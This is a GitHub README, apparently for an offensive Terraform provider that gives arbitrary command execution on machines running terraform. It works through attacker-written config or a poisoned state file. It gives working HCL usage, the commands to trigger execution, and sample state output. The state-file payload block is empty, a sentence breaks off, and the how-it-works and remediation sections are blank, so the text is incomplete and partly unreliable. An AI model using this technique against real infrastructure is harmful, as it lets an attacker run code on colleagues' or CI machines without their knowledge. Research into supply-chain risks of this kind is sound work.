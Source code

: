 # Terraform Provider for RCE via Statefile Poisoning

## What this is and major use cases

> This terraform provider can be used in two ways to execute arbitrary code on the machine that executes `terraform plan` or `terraform apply`:

1. **With write access to the terraform config files:**
  * You can use it like any other provider by declaring its use in the terraform config files. You declare a `rce` resource and specify which command to run, and the provider will take care of the execution.
  * There are tons of other ways to execute commands if you have write access to the terraform config files, but this provider adds the convenience of writing the output of the command to the state file in the `rce` resource, which might come in handy, if you have read access there.
2. **With write access to the state file:**
  * This is the way more interesting way. You can add a fake resource for this provider in the state file and specify a command to run there, and the next time someone executes terraform, this provider will be loaded to "destroy" that fake resource.
  * In the logic for "destroying" the resouce however, the specified command will be executed, and the fake resource will be purged from the state file.
  * Here, we sadly do not get the output written to the state file, otherwise terraform would throw errors about "inconsistencies". If you know how to do this, reach out to me or go ahead and open a PR please!

## How to use the provider

### With write access to the terraform config files

To use the provider stand alone, just declare this:

``` hcl
terraform {
  required_providers {
    rce = {
      source = "offensive-actions/statefile-rce"
    }
  }
}

provider "rce" {}

resource "rce" "command" {
  command = "id"
}
```

Then, just:

``` bash
# this will initialize things, no execution of the command, yet
terraform init

# this will execute the command without writing its output to the state file
terraform plan

# this will execute the command with writing the output to the state file
terraform apply
```

For example, when running `id`, this is the resulting state file - note the result of the `id` command in the `resources.instances.attributes.output`:

```
{
  "version": 4,
  "terraform_version": "1.6.3",
  "serial": 1,
  "lineage": "3562b273-b289-bb7c-55b4-a69105fa4526",
  "outputs": {},
  "resources": [
    {
      "mode": "managed",
      "type": "rce",
      "name": "run_command",
      "provider": "provider[\"example.com/local/example\"]",
      "instances": [
        {
          "schema_version": 0,
          "attributes": {
            "command": "id",
            "id": "id",
            "output": "uid=1000(kali) gid=1000(kali)\n"
          },
          "sensitive_attributes": [],
          "private": "bnVsbA=="
        }
      ]
    }
  ],
  "check_results": null
}
```

### With write access to the state file

This is a minimal viable state file for the provider to run:

```

```

When injecting this into an existing state file, you of course only want the 

## How it works

## Remediation

## Why I do this

1. Because it's fun.
2. To learn stuff (see point 1).
3. Because I hope you might find this fun, too, and reach out with pull requests or comments, feauture requests, etc. This applies especially since:
  * I have not written `go` code before and I am sure the AI fuled soure I put together could be way nicer and especially resilient.
  * I would love to have a function to not write to the state file for use case 1 and to force writing to the statefile in use case 2. However, terraform does not like this, because it causes inconsistencies. If you know a way around that, hit me up, send a PR, all the things!
